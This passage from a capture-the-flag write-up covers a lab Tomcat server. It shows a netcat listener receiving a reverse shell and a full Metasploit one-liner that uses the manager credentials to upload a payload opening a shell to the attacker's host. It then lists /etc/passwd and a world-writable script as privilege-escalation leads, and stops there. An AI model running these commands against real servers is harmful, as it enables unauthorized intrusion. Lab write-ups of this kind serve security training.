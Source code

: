 ```
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.18.18.117] from (UNKNOWN) [10.10.187.143] 38760

id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)


```

## Using metasploitable framework to get shell on tomcat after authenticate succefully
Since we know username and password, there is no need to bruteforce.
```
msfconsole -q -x 'use exploit/multi/http/tomcat_mgr_upload;set RHOSTS 10.10.187.143;set RPORT 8080;set HttpUsername tomcat;set HttpPassword s3cret;set LHOST 10.18.18.117;set LPORT 1235;run'
```
But i will continue with my previous shell

## PRIVILEDGE ESCALATION
Let check for users
```
tomcat@ubuntu:/$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
jack:x:1000:1000:tom,,,:/home/jack:/bin/bash
tomcat:x:1001:1001::/opt/tomcat:/bin/bash

```
Navigate to /opt/tomcat to look for interesting stuff but nothing interesting

Checking to /home/jack, i can see that file id.sh, i have permission to read,write and excute as any user and other files like test.txt and user.txt, i have permission to read them
```
tomcat@ubuntu:/tmp$ ls -la /home/jack
ls -la /home/jack
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root   39 Aug  7 12:55 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts

```
